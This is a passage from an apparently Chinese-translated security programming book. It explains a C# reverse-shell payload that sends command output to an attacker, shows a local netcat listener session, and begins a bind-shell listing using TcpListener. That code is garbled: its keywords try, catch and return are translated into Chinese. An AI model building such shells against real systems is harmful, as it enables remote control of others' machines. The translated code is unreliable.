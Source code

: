 我们还将 UseShellExecute 属性 ➎ 设置为 false，将 RedirectStandardOutput 属性 ➏ 设置为 true。如果 UseShellExecute 设置为 true，命令将会在另一个系统 shell 中运行，而不是由当前可执行文件直接运行。通过将 RedirectStandardOutput 设置为 true，我们可以使用 Process 类的 StandardOutput 属性来读取命令的输出。

一旦设置了 StartInfo 属性，我们调用 Process 上的 Start() ➐开始执行命令。进程运行时，我们将其标准输出直接复制到网络流中，使用 CopyTo() ➑将数据发送给攻击者。如果在执行过程中发生错误，Encoding.ASCII.GetBytes() ➒将字符串“Error running command <cmd>”转换为字节数组，然后使用流的 Write()方法 ➓将其写入网络流发送给攻击者。

运行有效载荷

使用 127.0.0.1 和 4444 作为参数运行有效载荷应该会连接回我们的 netcat 监听器，这样我们就可以在本地机器上运行命令，并在终端显示出来，如清单 4-5 所示。

> $ nc -l 4444
> 
> whoami
> 
> bperry
> 
> uname
> 
> Linux 清单 4-5：反向连接有效载荷连接到本地监听器并运行命令

绑定有效载荷

当您处于可以直接访问可能运行有效载荷的机器的网络中时，有时您希望有效载荷等待您连接到它们，而不是您等待它们的连接。

在这种情况下，有效载荷应该本地绑定到一个端口，您可以简单地使用 netcat 连接到该端口，以便开始与系统的 Shell 进行交互。

在反向连接有效载荷中，我们使用 TcpClient 类创建与攻击者的连接。这里，我们将使用 TcpListener 类代替 TcpClient 类，来监听来自攻击者的连接，如清单 4-6 所示。

> public static void Main(string[] args)
> 
> {
> 
> int port = ➊int.Parse(args[0]);
> 
> TcpListener listener = new ➋TcpListener(IPAddress.Any, port);
> 
> 尝试
> 
> {
> 
> listener.➌Start();
> 
> }
> 
> 捕获
> 
> {
> 
> 返回;
> 
> }

清单 4-6：通过命令参数在给定端口上启动 TcpListener
